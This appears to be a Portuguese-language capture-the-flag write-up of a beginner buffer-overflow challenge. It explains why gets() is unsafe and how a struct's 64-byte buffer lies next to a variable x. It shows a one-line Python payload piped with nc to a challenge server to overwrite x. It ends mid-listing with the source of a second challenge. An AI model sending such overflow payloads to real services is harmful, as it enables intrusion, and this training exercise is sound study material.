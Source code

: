 ```c

```

Esse era o código fornecido para explorar, logo depois dos includes ele declara [gets](https://stackoverflow.com/questions/1694036/why-is-the-gets-function-so-dangerous-that-it-should-not-be-used), que é vulnerável.

Logo após ler o conteúdo do buffer, ele verifica se o valor de x é diferente de zero, então tive que sobrescrever o valor de x.

Compilei o binário e ele já informa que usar gets é perigoso:

```
$ gcc -o bof1 bof101.c
/usr/bin/ld: /tmp/cc0DHsI5.o: in function `main':
bof101.c:(.text+0x31): warning: the `gets' function is dangerous and should not be used.
```

Para entender como uma struct fica na memória: https://www.allaboutcircuits.com/technical-articles/understanding-memory-structures-in-embedded-c-language/

Como buffer tem 64 bytes, tenho que preenchê-lo e logo em seguida passar um valor diferente de 0, que ficará no endereço correspondente a x:

```
$ python3 -c "print('A' * 64 + '\x01')" | nc projetorsi.com.br 9001
R$1{~FLAG~}
Bem-vindo ao primeiro desafio de PWN, estude buffer overflow!
Parabéns você modificou a variavel x!
```

### **BOF para leitores**

![descrição do primeiro desafio de pwn](./images/bof_leigo.png)

Código do programa:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int x;
  } estrutura;

  printf("Bem-vindo ao segundo desafio de PWN, estude buffer overflow!\n\n");
```